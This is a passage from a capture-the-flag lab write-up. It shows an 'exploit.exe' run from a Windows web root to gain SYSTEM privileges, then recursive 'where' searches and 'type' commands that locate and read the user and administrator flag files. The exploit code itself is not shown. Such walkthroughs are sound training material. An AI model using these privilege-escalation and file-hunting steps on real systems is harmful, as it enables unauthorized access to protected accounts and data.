 We can find exploit.exe file using where command and run it to escalate privilege!

```bash
where /r C:\ exploit.exe
c:\inetpub\wwwroot>exploit.exe
whoami
nt authority\system
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-07-29 00-47-23.png" alt=""><figcaption></figcaption></figure>

</div>

Starting to root folder (C:\\) we can find quickly flags, using where command in recusive mode (/r):

```
where /r C:\ user.txt
C:\Users\babis\Desktop\user.txt
```

and read user.txt flag using type command (equivalent to cat on \*nix):

```
type C:\Users\babis\Desktop\user.txt
```

<details><summary>🚩 Flag 1 (user.txt)</summary></details>

### Task 4 - Find root flag

After that, we do the same thing for root.txt flag

```bash
where /r C:\ root.txt
C:\Users\Administrator\Desktop\root.txt
```

```bash
type C:\Users\Administrator\Desktop\root.txt
```

<details><summary>🚩 Flag 2 (root.txt)</summary></details>
